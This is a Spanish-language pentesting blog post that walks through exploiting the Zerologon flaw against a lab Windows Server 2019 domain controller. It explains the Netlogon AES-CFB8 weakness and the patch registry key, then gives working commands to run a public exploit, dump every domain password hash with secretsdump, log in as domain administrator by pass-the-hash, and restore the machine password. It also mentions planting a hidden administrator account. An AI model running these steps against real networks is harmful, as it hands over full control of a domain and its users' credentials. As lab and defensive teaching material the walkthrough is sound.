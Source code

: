 ```yaml
---
layout: single
title: Zerologon en Windows Server 2019
excerpt: "En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del
dominio. Quiero recalcar que para realizar éste ataque no necesitamos
credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta
vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el
hash de la contraseña del administrador del dominio utilizaremos la conocida
técnica de pass the hash para obtener acceso al sistema con la cuenta del
administrador."
date: 2021-03-13
classes: wide
header:
  teaser: /assets/images/Zerologon/zerologon.jpg
  teaser_home_page: true
categories:
  - Windows
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


![](/assets/images/Zerologon/zerologon.jpg)

En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del dominio. Quiero recalcar que para realizar éste ataque no necesitamos credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el hash de la contraseña del administrador del dominio utilizaremos la conocida técnica de pass the hash para obtener acceso al sistema con la cuenta del administrador.

Utilizaremos una máquina virtual con Linux para la parte del atacante y otra
con Windows Server 2019 y Active Directory para la víctima.

![](/assets/images/Zerologon/windows-server.png)

En hackplayers explican en profundidad la vulnerabilidad.

[https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html](https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html)

Citando el artículo de hackplayers:

Zerologon se aprovecha de una vulnerabilidad en el servicio Netlogon, que se utiliza para diversas tareas relacionadas con la autenticación de usuarios y máquinas en controladores de dominio.

Netlogon utiliza un protocolo criptográfico basado en AES-CFB8 que define IVs fijos de 16 bytes de ceros en lugar de IVs aleatorios. Con esto, dada una clave aleatoria, hay una probabilidad de 1 entre 256 de que el cifrado AES de un bloque de todo ceros de como salida todo ceros. Dado que las cuentas de equipo no se bloquean después de intentos de inicio de sesión no válidos, simplemente podemos intentarlo varias veces hasta que obtengamos esa clave y la autenticación sea exitosa. La media esperada de intentos necesarios será de 256, lo que en la práctica sólo lleva unos tres segundos. Con este método, podemos iniciar sesión como cualquier ordenador del dominio. Esto incluye controladores de dominio de respaldo e incluso el propio controlador de dominio de destino. Conseguiremos cambiar la contraseña del equipo controlador de dominio a una cadena vacía (todo ceros) para obtener privilegios y poder obtener los hashese de todos los usuarios de Active Directory. Después de vulnerar el equipo podemos volver a cambiar la contraseña de la cuenta de equipo controlador de dominio para que todo vuelva a funcionar correctamente. Ahora el DC vuelve a comportarse normalmente y el atacante se ha convertido en administrador de dominio.

## Testeando si el servidor es vulnerable

La empresa Secura publicó una herramienta para identificar si una máquina es
vulnerable a Zerologon en un repositorio de github [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Nos clonamos la herramienta con `git clone
https://github.com/SecuraBV/CVE-2020-1472.git` y la lanzamos contra nuestro
controlador de dominio virtualizado, que se llama DC01 y tiene la ip
192.168.160.131

![](/assets/images/Zerologon/testing.png)

Y vemos que nos dice que es vulnerable a zerologon. Ésta vulnerabilidad afecta
a todas las versiones de Windows Server desde la 2008 R2, siempre que no
cuenten con las últimas actualizaciones instaladas. Microsoft sacó un parche en agosto, pero por lo visto había que editar el registro a mano para asegurarse de que el sistema quedaba completamente parcheado. En concreto la clave del registro es FullSecureChannelProtection y tiene que tener un valor de “1”. Se supone que en febrero tenía que salir la actualización que parcheaba definitivamente la vulnerabilidad, con lo cual deben de haber muchos servidores a dia de hoy que siguen siendo vulnerables.

El nombre del servidor y el del dominio se pueden averiguar rápidamente con
crackmapexec.

![](/assets/images/Zerologon/info.png)

## Explotando la vulnerabilidad y accediendo al sistema

Existen varias pruebas de concepto que explotan zerologon pero yo en este caso
voy a utilizar ésta: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Igual que antes, nos clonamos el repositorio con `git clone
https://github.com/dirkjanm/CVE-2020-1472.git`

![](/assets/images/Zerologon/clone.png)

Y ahora ejecutamos el script en python, pero antes vamos a crear un entorno
virtual con virtualenv para que no nos den problemas los scripts de impacket.

Para ello ejecutamos 
```
virtualenv zerologon
source zerologon/bin/activate
```

Ahora nos vamos al directorio opt y nos clonamos la suite de herramientas de
impacket

```
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
sudo pip install .
```

Ahora si, ejecutamos el exploit y vemos que funciona y nos dice Exploit
complete!

![](/assets/images/Zerologon/exploit.png)

Ahora ejecutamos el script de impacket secretsdump para obtener los hashes de
las contraseñas. Le pasamos un hash que corresponde a todo ceros para la cuenta
de máquina del controlador del dominio, por eso ponemos dom01.local/DC01$ con
un signo de dolar al final.

![](/assets/images/Zerologon/secrets.png)

Obtenemos tanto los hashes de las cuentas de usuario como los de las cuentas de
máquinas. Ésto es importante para poder después de ganar acceso al sistema
restablecer la contraseña de la cuenta de equipo y dejarla como estaba para que
todo siga funcionando correctamente.

Para usar pass the hash podemos utilizar wmiexec y obtendremos una sesión de
cmd de la cuenta del administrador del dominio.

![](/assets/images/Zerologon/pth.png)

Vemos que al ejecutar whoami nos devuelve dom01\administrador. Estamos dentro
de la máquina con la cuenta del administrador del dominio. En éste punto
podemos hacer lo que queramos, por ejemplo crearnos un usuario administrador
oculto para que no se vea desde windows, activar el escritorio remoto editando
el registro con los comandos reg y conectarnos por RDP al servidor.

Pero no nos olvidemos de que tenemos que restablecer la contraseña de la cuenta
de quipo para que todo funcione correctamente a nivel de active directory. Esto
es debido a que hemos cambiado la contraseña de la cuenta del equipo a nivel de
active directory, pero en la sam local sigue estando la original.

Para restablecerla usaremos de nuevo secretsdump pero esta vez con el hash del
administrador, lo que nos devolverá la *plain_password_hex* original para poder
restablecerla con el script restorepassword.py

```
secretsdump.py dom01.local/administrador@192.168.160.131 -target-ip 192.168.160.131 -hashes :57987b38d5ba54e02daa2d5d7579765b
```

Nos devuelve entre otras cosas la plain_password_hex de la cuenta de equipo en
la sam local.

```
DOM01\DC01$:plain_password_hex:fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

Solo quedaría ejecutar el script para restablecer la contraseña local de la
cuenta de equipo.

```
sudo python3 restorepassword.py dom01.local/DC01@DC01 -target-ip 192.168.160.131 -hexpass fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

![](/assets/images/Zerologon/restore.png)

Para comprobar si todo ha ido bien podemos ejecutar de nuevo nuestra primera
ejecución de secretsdump y esta vez debería dar error al no estar la contraseña
de la cuenta del equipo vacía.

![](/assets/images/Zerologon/error.png)

Y efectívamente, todo ha vuelto a la normalidad, pero seguimos teniendo acceso al equipo como administrador del dominio porque seguimos teniendo el hash de la contraseña de la cuenta del administrador para hacer pass the hash.

```
wmiexec.py -hashes :57987b38d5ba54e02daa2d5d7579765b Administrador@192.168.160.131
```

![](/assets/images/Zerologon/final.png)
